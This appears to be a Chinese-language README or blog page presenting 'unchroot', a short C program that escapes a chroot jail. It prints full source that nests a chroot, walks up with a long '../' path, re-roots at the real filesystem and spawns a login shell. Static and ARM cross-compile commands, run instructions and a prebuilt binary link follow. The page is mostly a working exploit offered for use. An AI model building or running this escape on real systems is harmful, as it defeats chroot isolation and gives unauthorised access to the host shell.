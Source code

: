 ### unchroot.c

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>

int main() {
    mkdir("/tmp", 0777);
    mkdir("/tmp/unchroot.dir", 0755);
    chroot("/tmp/unchroot.dir");
    chdir("../../../../../../../../../../../../../../../../../../../../../../../../../../..");
    chroot(".");
    system("/bin/sh -l");
    return 0;
}
```

### 编译：

```
gcc -o unchroot -static unchroot.c
```

### 交叉编译为32位ARM二进制

```
arm-linux-gnueabi-gcc -o unchroot -static unchroot.c
```

[unchroot（491.31 KB）](unchroot)

### 使用

在chroot环境执行它即可

```
chmod +x ./unchroot
./unchroot
```

应该会离开chroot环境，进入外面的shell。

-----------------------------------------

思路来自 https://terenceli.github.io/%E6%8A%80%E6%9C%AF/2024/05/25/chroot-escape
